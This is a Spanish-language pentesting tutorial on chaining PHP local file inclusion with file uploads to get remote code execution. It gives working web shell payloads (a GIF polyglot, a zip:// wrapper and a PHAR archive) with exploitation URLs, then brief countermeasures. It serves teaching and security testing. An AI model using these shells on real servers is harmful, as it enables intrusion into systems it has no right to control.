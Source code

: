 ```yaml
---
layout: post
title: "LFI y Subida de Archivos: Explotando Vulnerabilidades de Inclusión Local"
date: 2025-06-08 11:00:00 +0000
categories: [Web Security, Pentesting]
tags: [LFI, file-upload, php, web-shells, penetration-testing]
image: /assets/img/posts/lfi-file-upload/lfi-banner.png 
---
```


La **inclusión local de archivos (LFI)** combinada con funcionalidades de subida de archivos representa una de las técnicas más efectivas para lograr **ejecución remota de código (RCE)** en aplicaciones web. En este post exploraremos diferentes métodos para explotar estas vulnerabilidades.

---

## Introducción a LFI y Subida de Archivos

Las funcionalidades de subida de archivos son omnipresentes en las aplicaciones web modernas, ya que los usuarios normalmente necesitan configurar sus perfiles y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor back-end puede extender la explotación de muchas vulnerabilidades, como las vulnerabilidades de inclusión de archivos.

---

### Funciones Vulnerables por Lenguaje

Para que este ataque funcione, la función vulnerable debe tener capacidades de **ejecución de código**. Las siguientes funciones permiten ejecutar código con inclusión de archivos:

| Lenguaje | Función | Leer Contenido | Ejecutar | URL Remota |
|----------|---------|----------------|----------|------------|
| **PHP** | `include()/include_once()` | ✅ | ✅ | ✅ |
| **PHP** | `require()/require_once()` | ✅ | ✅ | ❌ |
| **NodeJS** | `res.render()` | ✅ | ✅ | ❌ |
| **Java** | `import` | ✅ | ✅ | ✅ |
| **.NET** | `include` | ✅ | ✅ | ✅ |

---

## Método 1: Subida de Imagen Maliciosa

### Creando la Imagen Maliciosa

El primer paso es crear una imagen maliciosa que contenga código PHP web shell pero que aún parezca y funcione como una imagen normal.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Nota:** Utilizamos una imagen GIF porque sus magic bytes son fácilmente tipeables (caracteres ASCII), mientras que otras extensiones tienen magic bytes en binario que necesitarían ser URL encoded.

### Subiendo el Archivo

Una vez creado nuestro archivo malicioso, necesitamos subirlo a la aplicación web. Típicamente esto se hace a través de formularios de perfil o configuración.

### Obteniendo la Ruta del Archivo

Después de subir nuestro archivo, necesitamos conocer la ruta donde se almacenó. En la mayoría de casos, especialmente con imágenes, podemos obtener acceso a nuestro archivo y conseguir su ruta desde su URL.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

### Explotación

Con la ruta del archivo en mano, solo necesitamos incluir el archivo subido en la función vulnerable LFI:

```
http://target.com/vulnerable.php?file=./profile_images/shell.gif&cmd=id
```

---

## Método 2: Wrapper ZIP

### Creando el Archivo ZIP

Esta técnica utiliza los wrappers de PHP para ejecutar código PHP. Aunque este wrapper no está habilitado por defecto, puede funcionar en ciertos casos específicos.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Explotación con Wrapper ZIP

Una vez subido el archivo shell.jpg, podemos incluirlo usando el wrapper `zip://` y referenciar archivos dentro de él con `#`:

```
http://target.com/vulnerable.php?file=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

---

## Método 3: Wrapper PHAR

### Creando el Archivo PHAR

El wrapper `phar://` ofrece otra alternativa para lograr ejecución de código. Primero creamos un script PHP:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilación y Preparación

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```


### Explotación con PHAR

```
http://target.com/vulnerable.php?file=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---

## Contramedidas y Prevención

### Validación Estricta
- Validar tanto la extensión como el contenido del archivo
- Implementar lista blanca de tipos MIME permitidos
- Verificar magic bytes de archivos

### Aislamiento de Archivos
- Almacenar archivos subidos fuera del directorio web
- Usar directorios con permisos restrictivos
- Implementar naming schemes aleatorios

### Sanitización de Entradas
- Validar y sanitizar todas las entradas del usuario
- Usar rutas absolutas en lugar de relativas
- Implementar controles de acceso adecuados

---

## Conclusiones

La combinación de vulnerabilidades LFI con funcionalidades de subida de archivos puede resultar en **ejecución remota de código**, incluso cuando la funcionalidad de subida no es vulnerable por sí misma. El **primer método** (imagen maliciosa) es el más confiable y debería funcionar en la mayoría de casos con la mayoría de frameworks web.

Los métodos de **ZIP** y **PHAR** deben considerarse como alternativas cuando el primer método no funciona, ya que requieren configuraciones específicas de PHP.

> **Importante:** Existe otro ataque LFI/uploads obsoleto que puede ocurrir si la subida de archivos está habilitada en las configuraciones de PHP y la página phpinfo() está expuesta. Sin embargo, este ataque no es muy común ya que tiene requisitos muy específicos (LFI + uploads habilitados + PHP antiguo + phpinfo() expuesto).

---

### Referencias

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP Wrappers Documentation](https://www.php.net/manual/en/wrappers.php)
- [Local File Inclusion Techniques](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)